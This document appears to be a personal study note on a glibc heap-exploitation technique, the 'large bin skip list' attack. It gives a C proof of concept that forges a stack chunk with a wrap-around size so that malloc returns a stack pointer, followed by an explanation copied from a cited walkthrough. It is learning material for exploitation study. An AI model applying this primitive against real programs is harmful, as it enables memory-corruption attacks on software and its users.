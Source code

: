 <details>
<summary><strong>Description</strong></summary>
<p>

 we will again be trying to allocate a chunk off of the stack. However, we will be doing so via leveraging the large bin's skip list...
 > i dont know if this's helpful but since shogun added it, i will do (copy) that too...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled in glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, stack_array[20], *reallocate_chunk;

    // so this time around, again we will be trying to get malloc to allocate a stack ptr, this time, we will be leveraging the large bin skiplist
    // however, we will be doing things a little differently this time
    // similar to the previous instances , we will be making a fake chunk
    // except this time, we will set the size to 0xfffffffffffffff0
    // this would cause the address of the next chunk to wrap around, and legit be the 0x10 bytes before our fake chunk header
    // this would make it extremely convenient, to pass the sizeof(fake_chunk) == prev_size(next_chunk_after_fake_chunk)

    // allocate two big different size chunks
    chunk0 = malloc(0x440);
    malloc(0x18); // padding chunk to prevent consolidation
    chunk1 = malloc(0x450);
    malloc(0x18); // padding chunk to prevent consolidation

    free(chunk0); // insert them into the unsorted bin
    free(chunk1);

    // malloc a chunk, larger than any other unsorted bin chunks to move the two chunks over to the large bin
    // since they are different sizes, they will both end up in the skip list
    malloc(0x450 + 0x10);

    // now to create our fake chunk
    // first we will start off with the fake chunk's size, and prev_size
    // the size will be 0xfffffffffffffff0 (prev_inuse set) and prev_size will be 0x00
    // stack_array[10] = 0x0000000000000000; // fake chunk's prev_size (usually we dont need to care about this)
    stack_array[11] = 0xfffffffffffffff1; // fake chunk's size

    // now for the chunk header after our fake chunk
    // since the size of the chunk is 0xfffffffffffffff0
    // and this is a 64 bit architecture, it will legit wrap around, and be the previous 0x10 bytes
    // the prev_size we will set to `0xfffffffffffffff0` and the size we willset to `0x40` (I don't know if the chunk size matters here)
    stack_array[8] = 0xfffffffffffffff0; // Next chunk after fake chunk prev_size
    stack_array[9] = 0x0000000000000041; // and chunk size

    // so we have made our fake large bin chunk,
    // time to link it into the large bin, both the doubly linked list, and the skip list
    // however, there is one thing to take note of
    // the skiplist iteration will iterate, from the smallest chunk to the largest, this way, it should find "the best fit"
    // as long as none of the chunks prior to it in the skip list are large enough
    // for the allocation, it will guarantee our fake largebin chunk gets allocated

    // so let's go and link our fake chunk into the large bin, and skip list
    // starting with our fake chunk
    stack_array[12] = ((long)chunk0 - 0x10); // set our fake chunk's fwd
    stack_array[13] = ((long)chunk1 - 0x10); // set our fake chunk's bk
    stack_array[14] = ((long)chunk0 - 0x10); // set our fwd_nextsize
    stack_array[15] = ((long)chunk1 - 0x10); // set our bk_nextsize

    // now we will insert our fake chunk, in between the two large bin chunks
    // for both the doubly linked list, and skip list
    chunk0[1] = (long)(&stack_array[10]); // bk
    chunk0[3] = (long)(&stack_array[10]); // bk_nextsize
    chunk1[0] = (long)(&stack_array[10]); // fwd
    chunk1[2] = (long)(&stack_array[10]); // fwd_nextsize

    // now, all that is left to do, is call malloc with a size that will get us our fake chunk
    reallocate_chunk = malloc(0x450);
    printf("reallocate_chunk: %p\n", reallocate_chunk);

    /* one thing to note here. While this will give us a fake stack chunk, we have the remainder to deal with
    when a large bin chunk that is being allocated that is sufficiently larger than the allocation size
    it will split the chunk into two, and the leftover potion will be the remainder, the remainder will be inserted into the unsorted bin
    due to the huge size of the remainder here, it will cause problems and fail checks if malloc looks at it for allocation of the new unsorted bin chunk
    so we have to be careful about how we call malloc after this, also, this exact method may not be possible in future libc versions, as what checks are done changes
    */

    printf("becareful for the next allocation, depending on what happens, this can cause problems!!!\n");
    // e.g.
    // malloc(0x450); // this will cause error
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

> copy straight from shogun

Similar to a lot of the other walkthroughs, we will be making a fake chunk, and leveraging a particular functionality of the glibc heap to allocate it. One thing that has been annoying to do, for a lot of the main_arena bins, is the check size(fake_chunk) == prev_size(next_chunk_after_our_fake_chunk). This would cause us to not only have to make a fake chunk, but another fake chunk header after our first fake chunk. How we do things here, makes that a bit easier.

This is a 64 bit system. So, if we add two numbers together, wich their result leads to a value that needs more than 64 bits to store, it will in many situations just keep the lower 64 bits. We will use this to our advantage.

In a 64 bit system, if you add 0xfffffffffffffff0 to a memory address, the sum will basically be the 0x10 minus the memory address. Let's say the address is 0x00007ffffffde000. This is because 0x00007ffffffde000 + 0xfffffffffffffff0 = 0x100007ffffffddff0 and hex(0x100007ffffffddff0 & 0xffffffffffffffff) = 0x7ffffffddff0, and 0x00007ffffffde000 - 0x10 = 0x7ffffffddff0.

As such, if we make the size of our fake chunk to be 0xfffffffffffffff0, then the chunk header of the next chunk should legit be the previous 0x10 bytes before our fake chunk header. This will make it way more convenient to pass those checks.

As for linking it into the large bin, since we are specifically using the skip list here, we will need to link it both into the doubly linked main arena list, and the skiplist (total of 4 ptrs for the fake chunk, and 2 for each chunk we link it against).

Now for linking it against the skip list. Having a size of 0xfffffffffffffff0 will be extremely beneficial. Since the size values are unsigned, we're basically guaranteed that our chunk will be the largest. As such, as long as the previous chunks in the skip list won't meet the required size, it will choose our chunk.

Doing it this way will also yield one problem. When a large bin chunk is allocated that is larger than the requested size, the remainder will get carved out into a new chunk, and inserted into the unsorted bin. That will certainly happen here. That unsorted bin chunk, if malloc tries to look at it for future allocations, will not pass certain checks, and cause the program to crash. In addition to that, as what checks malloc does changes, this whole thing might not even be possible in future glibc versions.

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/large_bin/skiplist/readme.md

</p>
</details>